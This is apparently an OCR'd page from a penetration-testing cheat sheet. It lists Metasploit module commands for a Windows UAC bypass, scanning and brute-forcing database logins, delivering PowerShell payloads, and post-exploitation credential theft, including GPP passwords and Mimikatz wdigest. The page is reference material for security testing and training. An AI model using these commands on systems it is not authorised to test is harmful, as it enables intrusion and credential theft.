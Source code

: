 ### **Local Windows Metasploit Modules (exploits)**

|**Command**|**Description**|
| :-: | :-: |
|use exploit/windows/local/bypassuac|Bypass UAC on Windows 7 + Set target + arch, x86/64|

### **Auxilary Metasploit Modules**

|**Command**|**Description**|
| :-: | :-: |
|use auxiliary/scanner/http/dir\_scanner|Metasploit HTTP directory scanner|
|use auxiliary/scanner/http/jboss\_vulnscan|Metasploit JBOSS vulnerability scanner|
|use auxiliary/scanner/mssql/mssql\_login|Metasploit MSSQL Credential Scanner|
|use auxiliary/scanner/mysql/mysql\_version|Metasploit MSSQL Version Scanner|
|use auxiliary/scanner/oracle/oracle\_login|Metasploit Oracle Login Module|

### **Metasploit Powershell Modules**

|**Command**|**Description**|
| :-: | :-: |
|use exploit/multi/script/web\_delivery|Metasploit powershell payload delivery module|
|post/windows/manage/powershell/exec\_powershell|Metasploit upload and run powershell script through a session|
|use exploit/multi/http/jboss\_maindeployer|Metasploit JBOSS deploy|
|use exploit/windows/mssql/mssql\_payload|Metasploit MSSQL payload|

### **Post Exploit Windows Metasploit Modules**

|**Command**|**Description**|
| :-: | :-: |
|run post/windows/gather/win\_privs|Metasploit show privileges of current user|
|use post/windows/gather/credentials/gpp|Metasploit grab GPP saved passwords|
|load mimikatz -> wdigest|Metasplit load Mimikatz|
|run post/windows/gather/local\_admin\_search\_enum|Idenitfy other machines that the supplied domain user has administrative access to|

## **Networking**
### **TTL Fingerprinting**
